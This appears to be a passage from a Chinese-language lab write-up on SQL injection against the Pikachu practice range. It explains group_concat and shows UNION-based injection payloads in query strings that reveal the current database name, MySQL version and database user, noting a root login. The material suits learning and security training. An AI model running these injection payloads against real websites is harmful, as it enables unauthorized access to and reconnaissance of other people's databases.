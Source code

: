 `group_concat`这个函数默认是跟`group by `分组来一起使用的

==**如果没有使用`group by`语句，那么默认就是一个组，会显示所有的内容**==

[详见博客](https://blog.csdn.net/qq_33323054/article/details/125193170)

---

**5、获取当前数据库**

```sql
?id=-1 union select 1,2,database() --+
```

![image-20230814213605037](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814213605037.png)

**6、获取用户名和数据库版本**

```sql
?id=-1 union select 1,version(),user() --+
```

可以看到当前是以`root`用户登录的数据库，数据库版本是`5.7.26`
